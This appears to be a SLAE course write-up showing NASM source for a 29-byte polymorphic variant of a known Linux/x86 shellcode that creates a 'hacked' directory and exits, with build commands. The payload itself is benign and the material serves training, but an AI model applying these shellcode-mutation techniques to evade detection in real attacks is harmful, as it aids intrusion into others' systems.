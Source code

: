 ```nasm
; Title 		: SLAE Linux/x86 - Assignment-6.3
; Description	: Polymorphic version of Linux/x86 - mkdir() & exit() - 36 bytes by zillion
; Original 		: http://shell-storm.org/shellcode/files/shellcode-542.php
; Author		: Rizal Muhammed (UB3RSiCK)
; Student ID	: SLAE 933
; Shellcode Len.: 29 Bytes (7 bytes less than the original)
;
; nasm -f elf32 shellcode-542-poly.nasm -o shellcode-542-poly.o
; ld shellcode-542-poly.o -o shellcode-542-poly -z execstack

section .text
global _start
_start:
	
        jmp short get_addr
		string_addr:
            		pop ebx
			push 0x27
			pop eax
			mov cx,0x1ed
            		int 0x80
              	
			mov al,0x1
            		xor ebx,ebx
            		int 0x80
	get_addr:
        	call string_addr
        	fname db "hacked"
```
Lets test the polymorphic version.
![shellcode-542-poly](/assets/SLAE-x86/6.3-shellcode-542-poly.PNG)
